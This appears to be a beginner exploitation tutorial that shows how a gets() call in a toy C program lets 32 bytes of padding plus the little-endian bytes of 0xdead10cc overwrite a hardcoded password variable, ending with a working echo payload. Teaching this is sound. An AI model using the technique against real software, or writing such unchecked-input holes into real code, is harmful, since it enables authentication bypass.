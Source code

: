 ```yaml
---
description: Let's start easy
---
```


# Overwriting Variables

{% file src="../../.gitbook/assets/overwrite.zip" %}

In this topic we will be overwriting variables in a program where the value is hardcoded. Let's check out  how it runs first

<pre><code><strong>❯ ./overwrite
</strong>
What is the password?
</code></pre>

Enter any value

<pre><code><strong>❯ ./overwrite
</strong>
What is the password?
idk
Output: Wrong!
12345%
</code></pre>

It seems the program is asking for a password and outputs a value (ignore the % symbol)

Let's take a look at this snippet of the source code

```c
void auth(){

	int pass = 0x12345;
	char buffer[32];

	printf("What is the password?\n");
	fflush(stdout);
	gets(buffer);


	if (pass == 0xdead10cc){
		printf("Output: That is correct!\n");
		printf("%x", pass);
	} else {
		printf("Output: Wrong!\n");
		printf("%x", pass);
	}
}
```

The pass variable is hardcoded to `0x12345` and if we enter any input it will just echo the current value of the pass. We can only get the password correct if the pass variable is equivalent to `0xdeadl0cc`&#x20;

So how do we do this?

Notice these lines:

```c
char buffer[32];
...
...
gets(buffer);
```

The buffer is only set to hold 32 bytes of data and the use of <mark style="color:green;">**gets**</mark> which is a dangerous function that reads the buffer to an unknown amount can perform powerful attacks.

But what happens if we enter more than 32 bytes? (e.g. 33 bytes)

<pre><code><strong>❯ ./overwrite
</strong>
What is the password?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Output: Wrong!
10041%
</code></pre>

We can see that it is overflowing  and the value of A which is `0x41` in hex is partially filling up the variable.

You can ignore the 10041. Its just an indicator of the 4-byte combined value of `0x41`, `0x23`, `0x01` and `0x00`

&#x20;Before overflow:

```c
[45] [23] [01] [00]
```

After overflow:

```c
[41] [23] [01] [00]
```

Anyways try longer inputs

<pre><code><strong>❯ ./overwrite
</strong>
What is the password?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Output: Wrong!
41414141% 
</code></pre>

We have completely overwrite the variable with A's.

We can leverage this vulnerability to overwrite the variable `pass` with `0xdead10cc` so we can bypass the checks.

Let's try entering 32 A's and entering `0xdead10cc`&#x20;

<pre><code><strong>❯ ./overwrite
</strong>
What is the password?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdead10cc
Output: Wrong!
65647830%
</code></pre>

It didn't work as we wanted because the way 32-bit programs read is in <mark style="color:green;">little-endian</mark> format which is in reverse

{% hint style="info" %}
```
## Big-endian (MSB to LSB)
0xdead10cc

## Little-endian (LSB to MSB)
\xcc\x10\xad\xde
```
{% endhint %}



## Final Exploit

Let's try our new input

<pre><code><strong>❯ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xcc\x10\xad\xde" | ./overwrite 
</strong>
What is the password?
Output: That is correct!
dead10cc%
</code></pre>

\*Note: Normal inputs fail because the program interprets `\x` as part of a string, not as raw bytes, which can cause a <mark style="color:red;">segmentation fault</mark>. By using `echo` and piping the input, we send the actual bytes (`\xcc\x10\xad\xde`) directly into the program, allowing the overwrite to work as intended.
